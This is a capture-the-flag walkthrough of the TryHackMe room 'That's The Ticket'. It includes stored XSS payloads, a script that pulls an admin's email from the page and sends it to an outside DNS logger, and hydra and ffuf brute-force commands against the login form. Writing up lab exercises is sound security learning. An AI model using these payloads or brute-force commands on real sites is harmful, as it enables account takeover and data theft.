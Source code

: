```yaml
---
date: 2025-02-10
categories: [CTF, THM]
title: "THM - That's The Ticket"
tags: ['hydra', 'ffuf', 'nmap', 'privilege escalation', 'rce', 'xss']

description: "That's The Ticket - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - That's The Ticket

NMAP

![image1](../resources/59b71bff8cea4b2c8d91bf4ce57eed3c.png)
 
- Visit website:
Register an account

- Inspecting the message field:

![image2](../resources/12ab7561f7d54f75b03c89d6564e4636.png)

- We can try XSS:
(Close off the existing textarea tag first)

```bash
</textarea> <script>alert(1)</Script> 

```
or use prompt(1) instead


![image3](../resources/113c81c49dd64c40bd8894c342b46aae.png)

- It's vulnerable

- The cookies are set as HttpOnly and could not be extracted by XSS directly

![image4](../resources/376d11080e20470585cf8474553ea53d.png)

- Room hint:

![image5](../resources/87aab15161f949da98674f2f057ca08f.png)


![image6](../resources/87923bcc9a264223a3afe3baeb009864.png)

- Using the XSS vulnerability, do a call back to the DNS logger (above)
```javascript
</textarea> <img src="http://079a105aecaee7a7a858eca97499a96e.log.tryhackme.tech">

```
- Received 4 hits (3 from us and once from the server - maybe admin)


![image7](../resources/766f4dcc91084210ac47ae6e45a4b8b0.png)

- Get Admin's email:

![image8](../resources/351e6e93882347dda4d8ab127b3faefb.png)

```javascript
</textarea>
<script>
    var email_first = document.getElementById("email").innerHTML.split("@")[0];
    var email_second = document.getElementById("email").innerHTML.split("@")[1];
    var href = "http://localhost." + email_first + "." + email_second + ".40a18b725233ea050562beb6ceaef55d.log.tryhackme.tech/test";
    new Image().src = href;
</script>

```

![image9](../resources/3d86e79e8f894e749ec60caa5c146c74.png)

Don't need subdomain in there really (localhost) - still works


![image10](../resources/41cfa3cce05a4e879e3cf35ad675c754.png)

- Got admin email:
**adminaccount@itsupport.thm**

- Bruteforce the login site:
```bash
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.41.5 http-post-form "/login:email=adminaccount@itsupport.thm&password=^PASS^:Invalid"

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.190.207/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

```
**<u>Another way:</u>**

Clusterbomb - Save POST request from Burp and edit the parameters

```bash
ffuf -request post.txt -request-proto http -mode clusterbomb -w user.txt:UFUZZ -w /usr/share/wordlists/rockyou.txt:PFUZZ -fc 302

```

![image11](../resources/150619e150ac46e891d9019105a8d2f6.png)

**123123**

- Log in with admin:

![image12](../resources/c406ef06134546a4b16cbf57891bd4c6.png)


![image13](../resources/61fb5c9ca2a343c68516b8f576ea5cc6.png)